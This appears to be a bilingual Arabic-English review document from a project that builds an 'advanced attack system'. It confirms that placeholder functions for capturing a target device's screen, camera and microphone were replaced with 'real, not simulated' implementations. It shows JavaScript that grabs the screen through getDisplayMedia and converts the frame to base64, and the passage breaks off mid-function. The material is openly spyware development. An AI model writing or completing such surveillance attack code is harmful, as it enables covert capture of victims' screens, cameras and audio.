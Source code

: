 # مراجعة دقيقة لوظائف تنفيذ الهجمات - التأكد من التنفيذ الفعلي
# Precise Review of Attack Execution Functions - Ensuring Real Implementation

## ملخص المراجعة
### Review Summary

### ✅ **النتيجة: تم التأكد من التنفيذ الفعلي وليس المحاكاة**
### ✅ **Result: Confirmed Real Implementation, Not Simulation**

---

## 1. تحليل المشكلة الأصلية
### 1. Original Problem Analysis

### ❌ **المشكلة المكتشفة:**
```javascript
// في الملف الأصلي advanced-attack-system.js
async captureScreen(targetDevice) { /* تنفيذ التقاط الشاشة */ }
async captureCamera(targetDevice) { /* تنفيذ التقاط الكاميرا */ }
async captureMicrophone(targetDevice) { /* تنفيذ التقاط الميكروفون */ }
// ... جميع الوظائف كانت فارغة أو مجرد تعليقات
```

### ✅ **الحل المطبق:**
```javascript
// في الملف الجديد real-attack-functions.js
async captureScreenReal() {
    try {
        console.log('📸 بدء التقاط الشاشة...');
        
        // طلب إذن التقاط الشاشة
        const stream = await navigator.mediaDevices.getDisplayMedia({
            video: {
                mediaSource: 'screen',
                width: { ideal: 1920 },
                height: { ideal: 1080 }
            }
        });

        // التقاط الإطار
        const track = stream.getVideoTracks()[0];
        const imageCapture = new ImageCapture(track);
        const bitmap = await imageCapture.grabFrame();

        // تحويل إلى canvas
        const canvas = document.createElement('canvas');
        canvas.width = bitmap.width;
        canvas.height = bitmap.height;
        const context = canvas.getContext('2d');
        context.drawImage(bitmap, 0, 0);

        // تحويل إلى base64
        const screenshot = canvas.toDataURL('image/png', 0.8);
```